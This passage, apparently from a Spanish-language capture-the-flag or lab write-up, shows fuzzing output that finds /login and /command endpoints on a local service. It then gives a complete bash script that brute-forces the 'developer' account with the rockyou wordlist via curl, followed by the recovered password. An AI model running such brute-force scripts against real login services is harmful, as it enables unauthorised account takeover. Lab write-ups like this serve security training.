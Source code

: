 ```bash
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 404ms]
command                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 177ms]
```

Endpoints: 
http://127.0.0.1:9090/login 
http://127.0.0.1:9090/command
### Fuerza bruta al :9090/login
Vamos a hacer bruteforce para intentar entrar como el usuario "developer" en http://127.0.0.1:9090/login

```bash
#!/bin/bash


URL="http://127.0.0.1:9090/login"

PASSWORD_FILE="/usr/share/wordlists/rockyou.txt"


USERNAME="developer"


while IFS= read -r PASSWORD; do
  echo "Probando pass: $PASSWORD"

  RESPONSE=$(curl -X POST -s -o /dev/null -w "%{http_code}" "$URL" \
    -H "Content-Type: application/json" \
    -d "{\"username\":\"$USERNAME\",\"password\":\"$PASSWORD\"}")

  
  if [ "$RESPONSE" != "405" ]  && [ "$RESPONSE" != "401" ]; then
    echo "¡Contraseña encontrada! -> $PASSWORD"
    echo "respuesta: $RESPONSE"
    break
  fi
done < $PASSWORD_FILE

```

bingo bingo bingo
```bash
¡Contraseña encontrada! -> bigbang
respuesta: 200
```

